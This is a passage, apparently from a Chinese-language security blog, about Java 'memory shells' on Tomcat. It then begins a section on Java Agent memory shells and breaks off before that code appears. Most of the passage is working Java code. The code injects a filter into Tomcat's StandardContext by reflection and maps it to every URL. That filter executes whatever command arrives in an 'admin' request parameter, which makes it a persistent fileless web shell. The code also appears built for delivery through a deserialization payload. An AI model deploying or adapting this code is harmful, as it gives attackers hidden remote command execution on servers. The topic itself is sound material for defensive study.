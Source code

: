                 String name = "TomcatFilterInjection";            // 从ContextClassLoader获取StandardContext            WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();            StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();            // 通过反射从StandardContext获取到filterConfigs            Field field = standardContext.getClass().getDeclaredField("filterConfigs");            field.setAccessible(true);            Map filterConfigs = (Map) field.get(standardContext);  
                if (filterConfigs.get(name) == null) { // 防止重复注入                TomcatFilterInjection filter = new TomcatFilterInjection();                // 封装Filter为FilterDef，并添加到StandContext中                FilterDef filterDef = new FilterDef();                filterDef.setFilterName(name);                filterDef.setFilterClass(filter.getClass().getName());                filterDef.setFilter(filter);                standardContext.addFilterDef(filterDef);                // 生成新的ApplicationFilterConfig并添加到filterConfigs中                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);                constructor.setAccessible(true);                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);                filterConfigs.put(name, filterConfig);                // 创建FilterMap并加入StandardContext中，为Filter确定适用的URL                FilterMap filterMap = new FilterMap();                filterMap.addURLPattern("/*"); // 全局生效                filterMap.setFilterName(name);                filterMap.setDispatcher(DispatcherType.REQUEST.name());                standardContext.addFilterMapBefore(filterMap);            }        } catch (Exception e) {            // 忽略错误，在生成生成序列化代码时也会执行static部分，必然报错，直接跳过即可        }    }  
    

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
       @Override    public void doFilter(ServletRequest req, ServletResponse res,                         FilterChain filterChain) throws IOException, ServletException {        HttpServletRequest request = (HttpServletRequest) req;        if (request.getParameter("admin")!=null){            Runtime.getRuntime().exec(request.getParameter("admin"));        }        filterChain.doFilter(req, res);    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)        throws TransletException {  
        }  
        @Override    public void init(FilterConfig filterConfig) throws ServletException {  
        }  
        @Override    public void destroy() {  
        }}

## Java Agent内存马

> 参考：Java Agent 从入门到内存马 - 先知社区 (aliyun.com)

还是以Tomcat为例，我们知道JavaAgent技术可以动态修改字节码，我们熟知的Burp
Suite的破解技术就是基于`premain`方法实现的，通过`agentmain`，我们可以直接修改关键类即可

由于Java Agent内存马需要有Jar文件落地，并不是比JSP更好的方法，只能说在JSP无法解析的时候适用性会更好一些

比较知名的冰蝎就提供了Java Agent内存马，我们也实现一个比较基础的

调用端(Attacher)的核心代码其实就3句话
